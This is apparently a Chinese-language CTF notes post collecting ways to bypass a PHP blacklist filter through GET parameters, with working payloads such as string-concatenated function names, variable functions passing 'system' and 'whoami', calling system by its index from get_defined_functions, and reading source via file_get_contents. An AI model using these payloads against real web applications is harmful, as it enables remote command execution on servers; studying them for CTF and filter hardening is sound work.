









前言
整理一下url GET传参绕过黑名单限制，持续补充应该CTF时候可以用的上。
参考链接
https://www.anquanke.com/post/id/168667
黑名单代码DEMO

PHP转义绕过
以Unicode表示的\u{[0–9A-Fa-f]+}字符，会输出为UTF-8字符串（自PHP 7.0.0引入该功能）
在PHP>7 可以采用可变函数+十六进制绕过黑名单

注意点
这种技术并不适用于所有PHP函数，可变函数不能用于诸如echo、print、unset()、isset()、empty()、include以及require等语言结构，用户需要使用自己的封装函数，才能以可变函数方式使用这些结构
改进用户输入过滤,绕过黑名单
原理
PHP表示字符串方法

使用字符串拼接em
(sy.(st).em)(whoami)http://192.168.43.195/waf.php?code=(sy.(st).em)(whoami);
条件：PHP>7.0

多GET赋值
条件：PHP>5.2http://192.168.43.195/waf.php?a=system&b=whoami&code=$_GET[a]($_GET[b]);


get_defined_functions
返回所有已定义函数的数组http://192.168.43.195/waf.php?code=print_r(get_defined_functions()[internal]); | grep 'system'
[373] => system
http://192.168.43.195/waf.php?code=get_defined_functions()[internal][373](whoami);

字符串数组（需要用到FILE）
var_dump(file_get_contents(substr(__FILE__,0,-19)))
这里不能传入常量，我们对’/‘ 过滤，所以直接输入绝对路径无法显示源代码

